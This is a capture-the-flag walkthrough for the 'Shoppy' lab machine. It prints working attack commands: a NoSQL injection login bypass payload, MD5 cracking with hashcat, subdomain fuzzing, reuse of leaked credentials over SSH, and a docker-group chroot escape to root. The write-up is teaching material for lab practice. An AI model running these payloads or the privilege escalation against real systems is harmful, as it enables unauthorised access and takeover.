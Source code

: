 # Shoppy

## Abstract
*Category* : **Machine**<br/>
*Challenge name* : **Shoppy**<br/>
*Host* : `10.10.11.180`<br/>
*Description* : N/A<br/>
*Status* : **SOLVED**

## Walktrough
This is a machine challenge, let's start with a classic nmap scan:<br/>
```console
nmap -A -sV -Pn --script=nmap-vulners/ 10.10.11.180                                                                         ─╯
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-03 07:36 UTC
Nmap scan report for 10.10.11.180 (10.10.11.180)
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.4p1: 
|     	CVE-2021-28041	4.6	https://vulners.com/cve/CVE-2021-28041
|     	CVE-2021-41617	4.4	https://vulners.com/cve/CVE-2021-41617
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|     	CVE-2016-20012	4.3	https://vulners.com/cve/CVE-2016-20012
|_    	CVE-2021-36368	2.6	https://vulners.com/cve/CVE-2021-36368
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.88 seconds

```
<br/>

As you can see, nmap tells us that it found 2 open ports on the target (`22` and `80`) and nmap scripting <br/> engine tells us that port `22` is subject to several known vulnerabilities although, from the **CVE** scores, we can guess that they are not critical vulnerabilities. <br/> By carrying out more detailed research we are confirmed that these are not extremely powerful attack points<br/> but let's keep them in mind anyway, you never know.
<br/>
<br/>
It seems like a website is exposed on port 80, let's check with our browser:<br/>

<div style="width: 65%; height: 65%">

  ![](images/homepage.png)
  
</div>  
<br/>

Super simple web page, nothing interesting in the source, nothing in the cookies.<br/>
Let's try manually to search for the "classic" folders and files (eg `\robot.txt`, `images`, `admin`) by appending them manually to the URL.<br/>Both
Ummm...it seems that the url `http://shoppy.htb/admin` redirects us to a login page:<br/>
<div style="width: 65%; height: 65%">

  ![](images/admin_redirect.png)
  
</div>  
<br/>

Let's play a bit with sqlmap:<br/>
```console
sqlmap -u http://shoppy.htb/login --data="username=user&password=pwd" --method POST --dbs --batch
```

Unfotunately, we are not lucky 😔 <br/>
What if it is a NoSql db though?<br/>
Let's try some NoSqli payloads...<br/>
At last we are lucky with username=`admin'||'1==1` (always true)! <br/>
<div style="width: 65%; height: 65%">

  ![](images/nosql_bypass.png)
  
</div>  
<br/>

if we click on the `search for users` button, we are able to again submit the same NoSqli payload ad retrieve a list of credentials:<br/>

<div style="width: 65%; height: 65%">

  ![](images/credentials.png)
  
</div>  
<br/>

Both passwords are `md5` hashes, let's put both of them into a file named `hashes` and try to decrypt them with `hashcat` and `rockyou.txt` as a dictionary: <br/>
```console
hashcat -m 0 hashes rockyou.txt -O                                                                   ─╯
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-0x000, 4096/8918 MB allocatable, 5MCU

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Precompute-Merkle-Demgard
* Meet-In-The-Middle
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=4 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
* Device #1: Kernel m00000_a0-optimized.97c7a946.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344394
* Bytes.....: 139921525
* Keyspace..: 14344387
* Runtime...: 1 sec

6ebcea65320589ca4f2f1ce039975995:remembermethisway
Approaching final keyspace - workload adjusted.  

                                                 
Session..........: hashcat
Status...........: Exhausted
Hash.Type........: MD5
Hash.Target......: hashes
Time.Started.....: Mon Oct  3 09:34:09 2022 (3 secs)
Time.Estimated...: Mon Oct  3 09:34:12 2022 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5374.4 kH/s (0.44ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/2 (50.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 14344387/14344387 (100.00%)
Rejected.........: 3094/14344387 (0.02%)
Restore.Point....: 14344387/14344387 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....:  holler11 -> clarus

Started: Mon Oct  3 09:34:03 2022


```
<br/>

It found one hash! ==> <br/> `6ebcea65320589ca4f2f1ce039975995:remembermethisway`, <br/>
Surely it will be useful to us, but for what? 🤔 <br/>
We spend some time exploring the application to see if we missed something but it seems not,<br/>
at this point we try an enumeration of the directories and sub-domains of the site<br/>
and we notice that the domain `mattermost.shoppy.htb` exists!<br/>
```console
wfuzz -c -f subdomains_output.txt -w subdomains.txt -u "http://shoppy.htb/" -H "Host: FUZZ.shoppy.htb" --hl 7
libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/bing.py Exception, msg=No module named 'shodan'
libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/shodanp.py Exception, msg=No module named 'shodan'
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 9988

===================================================================
ID           Response   Lines    Word     Chars       Payload                                   
===================================================================

000000001:   200        0 L      141 W    3122 Ch     "mattermost"
```
<br/>
Let's try to reach that page and login with the credentials we found earlier:<br/>

<div style="width: 65%; height: 65%">

  ![](images/mattermost_login.png)
  
</div>  
<br/>
Yes! We are In!<br/>

If we look around we find the chat channel `Deploy machine` and in it, in plain sight, a password for the `jaeger` user: <br/>
```console
Sh0ppyBest@pp!
```
Let's try to connect via SSH with these credentials:<br/>
```console
ssh jaeger@shoppy.htb                                                                                ─╯
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ECDSA key fingerprint is SHA256:KoI81LeAk+ps7zoc1ru39Mg7srdxjzOb1UgmdW6T6kI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb,10.10.11.180' (ECDSA) to the list of known hosts.
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Oct  3 05:01:24 2022 from 10.10.14.31

```
We are succesfully logged in on the server with the user `jaeger`!!!<br/>
If we look around with `ls` we see a `user.txt` file and we are able to read it:<br/>
```console
cat user.txt 
55b7c826d3bf39ac63592327588367fe
```
This is our first flag! 💪<br/>
For this challenge, however, we are interested in the root flag so we need to escalate our privileges.<br/>
Let's see  which sudo rights our user has:<br/>
```console
sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```
This is interesting:<br/>
```console
User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

If we cat this file we see a hint for the user `deploy` and the password `Sample` so let's execute the propgram with that user:<br/>
```console
sudo -u deploy /home/deploy/password-manager 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
 
```
Excelent, we have another user's credentials, let's try to login via SSH with the user `deploy`.<br/>
Once we are in, if we do a `ps -aux` we notice that there are too few processes, this may be a hint that we found <br/>
ourselves inside a docker container.<br/>
Let's now try to run `id` command:<br/>
```console
id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)

```
Yes! we are member of the `Docker` group so we can interact with docker.<br/>
A rapid online search for `docker privilege escalation vulnerability` <br/>
suggest this command to to break out from restricted environments by spawning an interactive system shell.<br/>
The resulting is a root shell:<br/>
```console
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

What are we waiting for? Let's try it!<br/>
```console
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# cd root
# ls
root.txt
# cat root.txt
79501d7a33fa77e4ee9bdc739111e572

```
And that is it!<br/>

We have finally rooted the machine and we can submit our flag! 🏴